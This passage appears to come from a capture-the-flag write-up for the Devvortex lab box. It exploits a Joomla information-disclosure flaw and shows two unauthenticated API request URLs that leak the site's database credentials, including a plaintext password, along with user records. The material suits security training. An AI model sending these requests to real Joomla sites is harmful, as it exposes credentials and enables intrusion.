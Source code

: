 
Looking at README.txt we find out that Joomla CMS is used. And by reading the robots.txt file we discover the existence of an administrator page.

![admpg](IMG/img3.png)

I found this exploit https://www.exploit-db.com/exploits/51334.

Reading the script we can see there are two files which could contain sensitive information. Accessing those 2 reveals the following:

http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```
{
      "type": "application",
      "id": "224",
      "attributes": {
        "user": "lewis",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "P4ntherg0t1n5r3c0n##",
        "id": 224
      }
    },
```

http://dev.devvortex.htb/api/index.php/v1/users?public=true
```
data": [
    {
      "type": "users",
      "id": "649",
      "attributes": {
        "id": 649,
        "name": "lewis",
        "username": "lewis",
        "email": "lewis@devvortex.htb",
        "block": 0,
        "sendEmail": 1,
        "registerDate": "2023-09-25 16:44:24",
        "lastvisitDate": "2023-10-29 16:18:50",
```